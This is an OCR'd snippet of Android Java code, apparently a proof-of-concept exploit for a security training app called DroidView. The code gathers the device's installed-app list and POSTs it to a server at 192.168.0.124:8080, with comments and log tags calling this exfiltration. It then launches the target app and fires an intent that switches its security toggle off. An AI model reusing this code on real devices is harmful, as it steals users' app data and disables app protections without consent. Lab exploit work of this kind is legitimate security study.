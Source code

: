 ```java
        super.onCreate(savedInstanceState);  
  
        // get all the installed applications and put in a JSON array  
        PackageManager pm = getPackageManager();  
        List<ApplicationInfo> apps = pm.getInstalledApplications(0);  
        JSONArray appsArray = new JSONArray();  
        for (ApplicationInfo app : apps) {  
            appsArray.put(app.packageName);  
        }  
  
        // first exfiltrate/send the applications list to the server  
        new Thread(() -> {  
            try {  
                URL url = new URL("http://192.168.0.124:8080/collect");  
                HttpURLConnection conn = (HttpURLConnection) url.openConnection();  
                conn.setRequestMethod("POST");  
                conn.setDoOutput(true);  
                conn.setRequestProperty("Content-Type", "application/json");  
  
                JSONObject payloadJson = new JSONObject();  
                payloadJson.put("ip_ext", "local_exploit");  
                payloadJson.put("info", new JSONObject());  
                payloadJson.put("apps", appsArray);  
  
                try (OutputStream os = conn.getOutputStream()) {  
                    os.write(payloadJson.toString().getBytes("UTF-8"));  
                }  
  
                int code = conn.getResponseCode();  
                Log.d("EXPLOIT", "POST /collect -> " + code);  
                conn.disconnect();  
            } catch (Exception e) {  
                Log.e("EXPLOIT", "exfil failed", e);  
            }  
  
            // And then, launch the DroidView app  
            runOnUiThread(() -> {  
                Intent open = new Intent(Intent.ACTION_VIEW, Uri.parse("http://192.168.0.124:8080/"));  
                open.setPackage("com.eightksec.droidview");  
                open.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);  
                startActivity(open);  
  
                // very important, disable the toggle  
                new Handler().postDelayed(() -> {  
                    Intent toggle = new Intent("com.eightksec.droidview.TOGGLE_SECURITY");  
                    toggle.setComponent(new ComponentName("com.eightksec.droidview", "com.eightksec.droidview.MainActivity"));  
                    toggle.putExtra("enable_security", false);  
                    toggle.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
                    startActivity(toggle);  
                }, 1000);  
            });  
        }).start();  
    }  
}
```
